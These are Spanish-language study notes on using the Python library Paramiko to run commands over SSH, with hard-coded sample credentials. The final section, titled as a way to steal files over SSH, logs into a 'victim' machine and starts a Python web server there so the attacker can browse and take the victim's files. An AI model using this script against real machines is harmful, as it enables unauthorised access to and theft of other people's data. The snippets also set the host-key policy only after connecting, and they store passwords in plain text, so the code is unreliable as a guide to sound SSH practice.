 Paramiko es una librería que se utiliza para la automatización de tareas que requieren conectividad a través del protocolo SSH.
```python
import paramiko
import time

host = '192.168.0.9' # Ponemos los datos del servidor donde nos queramos conectar.
user = 'mario'
password = '123123'

client = paramiko.SSHClient()
client.load_host_keys('C:/Users/mario/.ssh/known_hosts') # Aquí cargamos este fichero para indicar que el host ya es conocido.
client.connect(host, username=user, password=password) # Cargamos las variables.
client.set_missing_host_key_policy(paramiko.AutoAddPolicy() ) # Esto es para que el host sea conocido por la máquina.

stdin, stdout, stderr = client.exec_command('ls') # En estas 3 variables se guardan los posibles errores o salidas normales del comando.

time.sleep(2) # Damos tiempo a que los parámetros se hayan recogido en el punto anterior.

resultado = stdout.read().decode() # Recogemos el standar output en una variable.
print(resultado)
```

![[Mis apuntes/ANEXOS/Pasted image 20221217085658.png]]
También podemos mejorar el código de tal forma que en caso de que la conexión tenga algún error, que se nos muestre dicho mensaje por pantalla:
```python
import paramiko
import time

host = '192.168.1.9' # Ponemos los datos del servidor donde nos queramos conectar.
user = 'mario'
password = '123123'

try:

    client = paramiko.SSHClient()
    client.load_host_keys('C:/Users/mario/.ssh/known_hosts') # Aquí cargamos este fichero para indicar que el host ya es conocido.
    client.connect(host, username=user, password=password) # Cargamos las variables.
    client.set_missing_host_key_policy( paramiko.AutoAddPolicy() ) # Esto es para que el host sea conocido por la máquina.

    stdin, stdout, stderr = client.exec_command('ls') # En estas 3 variables se guardan los posibles errores o salidas normales del comando.
    time.sleep(2) # Damos tiempo a que los parámetros se hayan recogido en el punto anterior.
    resultado = stdout.read().decode() # Recogemos el standar output en una variable.
    print(resultado)

except:

    print("Algo ha fallado en la conexión...")
```
![[Mis apuntes/ANEXOS/Pasted image 20221217085839.png]]
## ROBAR ARCHIVOS POR SSH CON PYTHON
También podemos ejecutar el comando para montar un servidor web con python y así poder robar los archivos:
```python
import paramiko

host = '192.168.0.9' # Ponemos los datos del servidor donde nos queramos conectar.
user = 'mario'
password = '123123'

try:

    client = paramiko.SSHClient()
    client.load_host_keys('C:/Users/mario/.ssh/known_hosts')
    client.connect(host, username=user, password=password)
    client.set_missing_host_key_policy( paramiko.AutoAddPolicy() )

    print("Debes escribir esta dirección en el navegador para acceder a los archivos de la víctima: ",host)

    client.exec_command('python3 -m http.server 81') # Montramos el servidor Python por el puerto que queramos.

except:
    print("Hubo un error...")
```
Y ya tenemos acceso desde nuestra máquina atacante a los archivos de la víctima:
![[Mis apuntes/ANEXOS/Pasted image 20221217085936.png]]

